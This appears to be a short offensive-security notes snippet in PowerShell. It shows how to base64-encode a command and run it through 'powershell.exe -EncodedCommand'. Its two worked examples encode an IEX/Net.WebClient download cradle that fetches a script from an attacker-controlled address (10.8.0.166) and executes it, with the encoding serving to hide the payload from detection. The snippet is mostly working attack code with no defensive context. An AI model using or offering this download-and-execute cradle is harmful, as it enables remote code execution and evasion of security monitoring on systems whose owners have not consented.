 ```
#Encode Command
  $command = "command”
  $bytes = [Text.Encoding]::Unicode.GetBytes($command)
  $encodedCommand = [Convert]::ToBase64String($bytes)
  echo $encodedCommand
  #Execute command
  powershell.exe -EncodedCommand $encodedcommand
  ```
  ```
  $CMD = "iex (New-Object Net.WebClient).DownloadString('http://10.8.0.166:80/download/file.ps1')"
[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($CMD))
  ``
  
  ```
  
$command = "IEX ((new-object net.webclient).downloadstring('http://10.8.0.166:80/download/file.ps1'))"
$bytes = [Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
  ```
